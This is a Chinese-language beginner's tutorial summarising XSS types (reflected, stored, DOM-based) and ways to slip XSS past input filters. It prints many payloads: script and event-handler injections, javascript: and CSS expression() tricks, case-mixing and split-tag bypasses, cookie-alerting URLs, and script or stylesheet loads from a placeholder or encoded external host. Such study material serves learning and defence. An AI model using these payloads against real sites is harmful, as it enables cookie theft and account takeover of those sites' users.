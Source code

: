 ## XSS初学总结

### 0x00 引言
学习Web安全，必然是从SQL注射和XSS开始的，毕竟貌似比较基础。学习了几天，没挖出什么洞，只好先总结一下。。。
名言金句：见框就插、改数据包不可见部分、改URL参数、js分析。

### 0x01 XSS分类
1、反射型跨站脚本(Reflected Cross-site Scripting)。主要是将恶意脚本附加到URL地址的参数中，原理如下：发现存在反射XSS的URL——根据输出点的环境构造XSS代码——进行编码等迷惑手法——发送给受害人——受害打开后，执行XSS代码——完成攻击(获取cookies、url、浏览器信息、IP等)。反射型XSS的特点是只在用户单击时触发，且只执行一次，故也称作非持久型跨站。
例如：
```
http://www.test.com/search.php?key="><script>alert("XSS")</script>
http://www.test.com/view.shtml?query=%3Cscript%3Ealert%281%29%3C/script%3E
http://www.test.com/logout.asp?out=1&url=javascript:alert(document.cookie)
```
```seq
Title: 反射型XSS攻击流程
攻击者->受害者: XSS链接&恶意脚本
受害者->服务器: 请求
服务器->>受害者: 响应
```
![反射xss](./static/xss_reflection.png)

2、持久型跨站脚本(Persistent Cross-site Scripting)。攻击者事先将恶意Javascript代码上传或储存到漏洞服务器上，只要受害者浏览包含此恶意代码的页面就会中招。一般出现在留言、评论等交互处。
```seq
Title: 持久型XSS攻击流程
攻击者->服务器: 注入恶意代码
受害者->服务器: 请求
服务器->>受害者: 响应
```
![持久xss](./static/xss_persistent.png)

3、DOM XSS。前面两种XSS一般出现在服务器端代码中，而DOM-Based XSS是基于DOM文档对象模型，受客户端浏览器代码的影响。这一漏洞的前提是，一个网页以不安全的方式使用`document.location`、`document.URL`、`document.referrer`等对象获取数据。
举个例子，有如下HTML代码：
```
<html>
  <head>
    <title>Welcome!</title>
  </head>
  <body>
    <p>Hi</p>
    <script>
      var pos=document.URL.indexOf("name=")+5;
      document.write(document.URL.substring(pos,document.URL.length));
    </script>
  </body>
</html>
```
通常，这个欢迎网页的请求是这样的：
`http://www.test.com/welcome.html?name=lihua`
然而，如果这个请求是这样的：
`http://www.test.com/welcome.html?name=<script>alert(document.cookie)</script>`
这就导致了XSS，弹出了cookie。

4、最后贴一张比较图。

![xss](./static/xss.png)

### 0x02 XSS构造剖析
现实中大多数的网站都有一个XSS Filter，用来分析用户提交的输入，并消除潜在的跨站脚本攻击。XSS Filter一般是基于黑白名单的安全过滤策略，于是就存在被绕过的可能。
１、利用<>标记注射html/javascript。
如：`<script>alert('XSS'); </script>`
２、利用html标签属性值执行XSS。很多html标记中的属性都支持javascript:[code]伪协议，可以尝试这些属性：`href`、`lowsrc`、`bgsound`、`background`、`value`、`action`、`dynsrc`等。
举个例子：
`<table background="javascript:alert('xss')"></table>`
`<img src="javascript:alert('XSS');">`
３、空格回车Tab。javascript结束一条语句的方式有两种，一种是分号`;`，另一种是当javascript引擎确定一个句子完整，而这一行的结尾有换行符。
于是可以构造如下：
```
<img src="ja    vas
cript:
ale rt('XSS')>
```
４、进行各种转码。常用的URL编码，unicode编码，HTML编码，CSS编码等。
５、产生事件法。javascript和html通过事件来进行交互，事件能让javascript代码运行，也就能执行跨站脚本。
例如：
`<img src="#" onerror=alert('XSS')>`
`<input type="button" value="click me" onclick="alert('XSS')"/>`
６、利用CSS跨站。这一方法灵活多变而且隐蔽，可以嵌入到html中，如：
```
<div style="background-image:url(javascript:alert('XSS'))">
<style>
  body {background-image: url("javascript:alert('XSS')");}
</style>
```
也可以从其他文件中引用：
`<link ret="stylesheet" href="http://www.test.com/attack.css">`
`<style type='text/css'>@import url(http://www.test.com/attack.css);</style>`
还可以用expression执行javascript：
```
<div style="width: expression(alert('XSS'));">
<img src="#" style="xss:expression(alert('XSS'));">
<style>
  body {background-image: expression(alert('XSS'));}
</style>
```
７、扰乱过滤规则。
大小写转换法：`<sCrIpt>alert('XSS')</ScripT>`
干扰字符污染法：`<div style="wid/****/th: expre/*XSS*/ssion(alert('XSS'));">`
字符编码法：`<script%20src%3D"http%3A%2F%2F0300.0250.0000.0001"><%2Fscript>`
拼凑法：`<scr<script>rip>alalertert</scr</script>rip>`

### 0x03 结尾
参考资料：
《XSS跨站脚本攻击剖析与防御》

[freebuf/black-hole](http://www.freebuf.com/author/black-hole)

[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
